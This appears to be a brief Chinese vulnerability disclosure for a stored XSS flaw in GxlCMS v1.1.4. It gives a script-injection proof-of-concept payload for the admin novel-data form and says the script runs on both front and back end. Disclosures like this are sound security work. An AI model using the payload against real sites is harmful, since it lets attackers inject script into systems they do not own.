 






# GxlCMS v1.1.4存在储存xss漏洞

漏洞POC

`123"123>undefined<script>alert(12)</script>`

漏洞位置

​       在`添加小说数据界面`可以输入POC导致XSS触发

http://127.0.0.1/gxl/index.php?s=Admin-Index

![image][http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zn96j30qc0fgjrw.jpg]

漏洞分析

![image][http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zvhvj30lt0aswfs.jpg]

![image][http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zwrcj30yr0aa0tn.jpg]

发现未对代码进行过滤

漏洞证明

![image][http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t1034ej31700d1wgf.jpg]

前台后台均可触发XSS
产品官网
http://www.gxlcms.com






